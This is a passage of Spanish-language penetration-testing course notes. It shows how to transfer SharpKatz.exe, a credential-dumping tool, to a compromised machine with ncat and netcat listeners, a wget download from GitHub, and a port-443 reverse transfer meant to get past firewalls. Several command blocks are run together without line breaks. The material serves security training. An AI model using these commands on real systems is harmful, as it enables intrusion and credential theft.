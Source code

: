 ### **Ncat - Compromised Machine - Listening on Port 8000**

Métodos de transferencia de archivos varios

```
victim@target:~$ # Example using Ncatvictim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

Desde nuestro host de ataque, nos conectaremos a la máquina comprometida en el puerto 8000 usando NetCat y enviaremos el archivo[Sharpkatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe)como entrada a NetCat. La opción`-q 0`le dirá a NetCat que cierre la conexión una vez que termine. De esa manera, sabremos cuándo se completó la transferencia de archivos.

### **Netcat - host de ataque - envío de archivo a la máquina comprometida**

Métodos de transferencia de archivos varios

```
xnoxos@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exexnoxos@htb[/htb]$ # Example using Original Netcatxnoxos@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe

```

Al utilizar NCAT en nuestro anfitrión de ataque, podemos optar por`--send-only`en vez de`-q`. El`--send-only`El indicador, cuando se usa en los modos de conexión y escucha, pide a NCAT que termine una vez que se agota su entrada. Por lo general, NCAT continuaría ejecutándose hasta que se cierre la conexión de red, ya que el lado remoto puede transmitir datos adicionales. Sin embargo, con`--send-only`, no hay necesidad de anticipar más información entrante.

### **NCAT - Attack Host - Enviar archivo a la máquina comprometida**

Métodos de transferencia de archivos varios

```
xnoxos@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exexnoxos@htb[/htb]$ # Example using Ncatxnoxos@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe

```

En lugar de escuchar en nuestra máquina comprometida, podemos conectarnos a un puerto en nuestro host de ataque para realizar la operación de transferencia de archivos. Este método es útil en escenarios donde hay un firewall que bloquea las conexiones entrantes. Escuchemos en el puerto 443 en nuestro pwnbox y enviemos el archivo[Sharpkatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe)como entrada a NetCat.

### **Attack Host - Enviar archivo como entrada a NetCat**

Métodos de transferencia de archivos varios

```
xnoxos@htb[/htb]$ # Example using Original Netcatxnoxos@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe

```
